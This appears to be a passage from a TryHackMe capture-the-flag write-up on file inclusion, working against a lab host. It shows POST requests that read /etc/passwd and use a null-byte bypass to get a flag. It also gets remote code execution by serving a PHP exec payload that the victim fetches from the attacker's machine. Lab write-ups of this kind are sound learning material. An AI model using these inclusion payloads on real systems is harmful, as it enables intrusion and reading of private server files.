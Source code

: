 ```
┌──(kali㉿kali)-[~/thm/file_inclusion/working]
└─$ php-cgi -f test.php fname=yeet b=3
yeet

Maybe next time I'll do this with an actual web server but this gives us enough information to proceed

```

- Based on the hint it seems clear that the GET request is being filtered so try POST
```
POST /challenges/chall3.php HTTP/1.1
Host: 10.10.160.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Cookie: THM=Guest
Content-Length: 16

file=/etc/passwd
```
- This gives us
```
<code><br />
<b>Warning</b>:  include(/etc/passwd.php) [<a href='function.include'>function.include</a>]: failed to open stream: No such file or directory in <b>/var/www/html/chall3.php</b> on line <b>49</b><br />
<br />
<b>Warning</b>:  include() [<a href='function.include'>function.include</a>]: Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in <b>/var/www/html/chall3.php</b> on line <b>49</b><br />
</code>
```
- We can see that the forward slashes are still in the request
- At this point I realized I should be using /etc/flag3 instead, so the successful request is given by
```
POST /challenges/chall3.php HTTP/1.1
Host: 10.10.160.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Cookie: THM=Guest
Content-Length: 18

file=/etc/flag3%00
```

4. Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?

- the question tells us we need to use RFI
- we need to server some php file and then tell the victim to request it
- I used the following
```
<?php
    echo exec('hostname');
?>

```
- then use python to serve the file
```
python3 -m http.server
```
- It defaults to port 8000 so used this to tell the victim to run my file
```
http://<tun0 ip>:8000/test.php
```